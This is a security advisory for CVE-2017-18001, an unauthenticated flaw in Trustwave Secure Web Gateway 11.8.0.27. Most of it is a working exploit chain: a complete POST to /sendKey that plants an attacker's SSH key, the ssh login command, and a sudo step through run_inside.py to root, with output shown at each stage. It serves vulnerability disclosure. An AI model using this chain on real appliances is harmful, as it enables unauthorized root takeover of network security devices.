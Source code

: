 ## Vulnerability Summary
The following advisory describes an unauthorized access vulnerability that allows an unauthenticated user to add their own SSH key to a remote Trustwave SWG version 11.8.0.27.

Trustwave Secure Web Gateway (SWG) “provides distributed enterprises effective real-time protection against dynamic new malware, strong policy enforcement, and a unique Zero-Malware Guarantee when managed for you by our experts.”

## Credit
An independent security researcher has reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program.

## Vendor response
Trustwave was informed of the vulnerability, and released the following advisory: https://www.trustwave.com/Resources/Trustwave-Software-Updates/Important-Security-Update-for-Trustwave-Secure-Web-Gateway/

CVE: CVE-2017-18001

## Vulnerability details
Trustwave SWG allows remote attackers to send to the SWG product a SSH key that will be used by the SWG product as the SSH key to logon to the device.

This allows unauthenticated user to send a POST request to /sendKey

```
POST /sendKey HTTP/1.1
Host: trustwave.device:5222
Content-Length: 558
content-type: multipart/form-data
user-agent: libwww-perl/6.15
Connection: close
 
--xYzZY
Content-Disposition: form-data; name="publicKey"; filename="public_key_to_send"
Content-Type: text/plain
 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDFxLGHCIST4jLDreJoQZnIZX6Fcx/ZyM1dzR2ZSwPG7UC3GYs61/cRGFvL9yuPZwIn8f/p9MCMoKHIG1gNZu0i7pqqZgB5vL+Dbf1vXl4PLY0wwcNMyVUBJaTSHdHSqe1KGBcM/1/gMsGpgcOJw2XMNubmXZxRSFSQLca1BsDmEyPF1KVpGfk60GtEH+c5E6ScEaTP7h0NcM6zEl9gubO2R+cq9FsPcMwF4bdsxyEZYGtVdS8B4goewEt1Nj+1hAzBWGox+hySee0QshZFAvZUrfcn4TsOd1iT95jAFoIDReQn781hmT6YQBpnl7HbDp6otyXAxrsvMOg1fvriAzHv rsyncuser
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
--xYzZY--
```

Which will add the supplied ssh key to Trustwave SWG, which we can use it to login to the device:


```
 /usr/bin/ssh -q -o PasswordAuthentication=no -o StrictHostKeyChecking=no -o ConnectTimeout=3 -o ServerAliveInterval=10 -i ./test.key commander@trustwave.device
Last login: Fri Aug 25 9:01:23 2017 from x.x.x.x
SWG Version               : 11.8.0.27
SWG Maintenance Release   : 0
Role                      : vs
Machine Type              : NG-6000
```

If we will run the id command via ssh we will get the following response:

```
-sh-4.1$ id
uid=1000(rsyncuser) gid=48(apache) groups=48(apache)
```

Once we connected to Trustwave SWG via SSH we can run commands as root by accessing /opt/finjan/msh/run_inside.py

```
# sudo /opt/finjan/msh/run_inside.py bash
bash-4.1# id
uid=0(root) gid=0(root) groups=0(root)
```
